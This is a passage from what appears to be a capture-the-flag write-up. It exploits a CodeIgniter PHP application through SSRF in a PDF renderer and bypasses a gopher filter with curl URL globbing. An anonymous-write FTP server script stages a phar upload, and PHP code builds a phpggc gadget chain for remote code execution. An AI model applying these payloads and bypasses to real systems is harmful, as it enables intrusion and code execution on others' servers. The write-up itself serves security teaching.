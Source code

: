If you want to experiment with any HTML tag that can perform SSRF, maybe you can find [this](https://html.spec.whatwg.org/multipage/embedded-content.html) helpful.

Based on `./src/backend/app/Controllers/PDFMaker.php`, the affected function was `$snappy->getOutputFromHtml()`. I tried to load `file:///etc/passwd`, it returns nothing, but when I tried to make a request to webhook, it succeed. Since we have nodejs bot on the server, and it was served locally on port 5000, maybe I can make SSRF to the application.

If we remember earlier, `/curl` endpoint checks if the url is start with `gopher` protocol. This can be bypass using curl feature which is [URL globbing](https://everything.curl.dev/cmdline/globbing):

- **Numerical/Alphabetical ranges**(`[]`): `curl -O "http://example.com/section[a-z].html"` or `curl -O "http://example.com/[1-100].png"`
- **List** (`{}`): `curl -O "http://example.com/{one,two,three,alpha,beta}.html"`

By using URL globbing from curl, our bypass could look like these:
1. `http://localhost:5000/curl?url=[g-g]opher://localhost:80/_payload`
2. `http://localhost:5000/curl?url={g}opher://localhost:80/_payload`

### Upload file via SSRF

I used `/ftp` endpoint to upload phar file and use [this ftp code](https://gist.github.com/dkw72n/193cfec6572fb392b671) to serve ftp service on my local network(use ngrok or vps for public to solve the challenge). This script allow us to use ftp anonymously (without password).

```python
from pyftpdlib.authorizers import DummyAuthorizer
from pyftpdlib.handlers import FTPHandler
from pyftpdlib.servers import FTPServer
authorizer = DummyAuthorizer()
authorizer.add_anonymous(".", perm="elradfmw")
handler = FTPHandler
handler.authorizer = authorizer
server = FTPServer(("0.0.0.0", 21), handler)
server.serve_forever()
```

But before that, we need to generate gadget chain to get RCE first. This can be done using existing gadget in [phpggc](https://github.com/ambionics/phpggc). You can generate it directly using phpggc script, or custom. Im using phpggc [gadget(RCE2)](https://github.com/ambionics/phpggc/blob/master/gadgetchains/CodeIgniter4/RCE/2/gadgets.php) but using custom script to generate phar. I also make a blog on how to create your own phar archieve, you can read it [here](http://localhost:4000/notes/Php-Internal/phar-deser#how-to-use-phar-archive-).

```php
// generate_phar.php
<?php

namespace CodeIgniter\Cache\Handlers {
    class RedisHandler {
        protected $redis;

        public function __construct($func, $param) {
            $this->redis = new \CodeIgniter\Session\Handlers\MemcachedHandler(
                new \CodeIgniter\Model(
                    new \CodeIgniter\Database\BaseBuilder(
                        new \CodeIgniter\Database\MySQLi\Connection
                    ),
                    new \CodeIgniter\Validation\Validation,
                    $func,
                    new \CodeIgniter\Database\MySQLi\Connection
                ),
                array("x" => $param)
            );
        }
    }
```